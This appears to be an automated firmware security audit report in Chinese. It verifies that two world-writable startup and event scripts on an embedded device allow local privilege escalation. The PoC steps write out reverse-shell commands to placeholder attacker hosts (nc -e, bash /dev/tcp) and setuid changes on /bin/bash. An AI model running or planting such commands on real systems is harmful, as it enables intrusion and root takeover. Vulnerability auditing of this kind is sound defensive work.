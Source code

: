 ## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 警报描述完全准确：文件权限为 777，允许任何用户（包括非 root 用户）修改内容；文件位于 'init0.d' 目录，在嵌入式系统中通常用于启动脚本，推断以 root 权限执行；当前脚本内容为创建符号链接，但攻击者可注入恶意命令。攻击者模型为非 root 用户，他们可以通过写权限修改文件。完整攻击链：1) 攻击者控制输入（直接编辑文件，例如使用 'echo "malicious_command" >> etc/init0.d/S90upnpav.sh' 添加如 '/bin/sh -c "chmod +s /bin/bash"' 的代码）；2) 路径可达（系统重启或脚本被重新执行时，以 root 权限运行）；3) 实际影响（权限提升，执行任意 root 命令）。PoC 步骤：攻击者执行 'echo "/bin/sh -c \"nc -e /bin/sh attacker_ip 4444\"" >> etc/init0.d/S90upnpav.sh' 添加反向 shell，然后等待系统重启触发执行。证据支持所有声明，漏洞可利用且风险高。

## 验证指标

- **验证时长：** 164.87 秒
- **Token 使用量：** 148615

---

## 原始信息

- **文件/目录路径：** `etc/events/WANV6_PPP_AUTOCONF_DETECT.sh`
- **位置：** `WANV6_PPP_AUTOCONF_DETECT.sh:1 (整个文件)`
- **描述：** 脚本 'WANV6_PPP_AUTOCONF_DETECT.sh' 具有全权限（rwxrwxrwx），允许任何用户包括非root用户修改其内容。攻击者作为已登录的非root用户，可以利用文件系统访问权限直接修改脚本，插入恶意命令（如反向shell或权限提升代码）。当脚本由系统事件（如网络配置变更）触发执行时，将执行任意代码，导致权限提升或设备控制。攻击链完整：修改脚本 → 事件触发执行 → 恶意代码运行。
- **代码片段：**
  ```
  #!/bin/sh
  echo [$0] [$1] [$2] ... > /dev/console
  xmldbc -P /etc/events/WANV6_PPP_AUTOCONF_DETECT.php -V INF=$1 -V ACT=$2 > /var/run/$1_ppp_autoconf_det_$2.sh
  sh /var/run/$1_ppp_autoconf_det_$2.sh
  ```
- **备注：** 攻击链已验证：权限证据（-rwxrwxrwx）支持非root用户修改脚本。建议检查系统事件如何触发此脚本以确认执行频率，但权限问题本身是严重的。关联文件：/etc/events/WANV6_PPP_AUTOCONF_DETECT.php（需要进一步分析以评估参数处理）。

## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 警报描述完全准确。证据显示文件权限为 -rwxrwxrwx，允许任何用户（包括非root用户）读写和执行。文件内容与代码片段一致，脚本逻辑涉及使用参数 $1 和 $2 动态生成并执行另一个脚本。攻击者模型为已通过身份验证的本地非root用户，他们可以利用文件系统访问权限直接修改脚本内容，插入恶意命令（如反向shell或权限提升代码）。当系统事件（如网络配置变更）触发脚本执行时，恶意代码将运行，导致任意代码执行、权限提升或设备控制。完整攻击链已验证：修改脚本（攻击者可控输入）→ 事件触发执行（路径可达，基于固件事件系统）→ 恶意代码运行（实际安全损害）。概念验证（PoC）步骤：攻击者可以编辑文件并添加命令，例如插入 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' 以建立反向shell，或添加 'chmod 4755 /bin/bash' 进行权限提升。当脚本被触发时，恶意命令执行，完成利用。

## 验证指标

- **验证时长：** 167.85 秒
- **Token 使用量：** 154481

---